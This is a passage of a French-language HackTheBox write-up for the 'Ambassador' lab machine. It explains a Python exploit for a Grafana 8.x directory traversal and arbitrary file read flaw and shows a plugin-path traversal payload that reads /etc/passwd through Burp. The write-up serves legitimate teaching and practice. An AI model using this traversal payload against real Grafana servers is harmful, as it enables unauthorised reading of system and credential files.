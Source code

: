 ```python
    try:
        exploit(args)
    except KeyboardInterrupt:
        return


if __name__ == '__main__':
    main()
    sys.exit(0) 
```

Ce script Python est un script qui exploite une vulnérabilité "Directory Traversal and Arbitrary File Read" dans Grafana V8.0.0-beta1 - 8.3.0. Il prend l'URL de la cible Grafana en entrée à l'aide de l'option -H et utilise une liste prédéfinie de plugins pour tenter d'exploiter la vulnérabilité. Il demande ensuite à l'utilisateur d'entrer le nom du fichier à lire et utilise une méthode de traversée de répertoires pour accéder à ce fichier. Le contenu du fichier est affiché sur la sortie standard si la requête réussit.

voici la requête que l'exploit effectue, on va faire cette requête manuellement dans **burp**.

```python
pargs.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
```

On va essayer avec le premier plugins de la liste "alertlist**",** voilà la requête **burp** :

URL : [](http://ambassador.htb:3000/plublic/plugins/alertlist/../../../../../../../../../../../../../etc/passwd)http://ambassador.htb:3000/plublic/plugins/alertlist/../../../../../../../../../../../../../etc/passwd

![ambassador_BURP_exploit.png](https://raw.githubusercontent.com/RawMain121/writeups/main/HackTheBox/ambassador/_resources/ambassador_BURP_exploit.png)
